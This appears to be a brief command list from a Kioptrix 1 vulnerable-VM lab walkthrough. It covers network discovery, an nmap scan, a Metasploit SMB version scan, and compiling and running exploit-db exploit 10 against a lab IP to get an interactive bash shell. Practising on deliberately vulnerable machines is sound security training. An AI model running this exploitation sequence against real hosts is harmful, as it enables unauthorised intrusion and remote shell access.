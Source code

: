 Commands:

netdiscover -i eth1

nmap -p- -A (Kioptrix 1 IP)

msfconsole
use auxiliary/scanner/smb/smb_version
set RHOST 192.168.56.110
run

gcc 10.c -o 10

./10 -b 0 192.168.56.110

/bin/bash -i


URLs:

https://www.exploit-db.com/exploits/10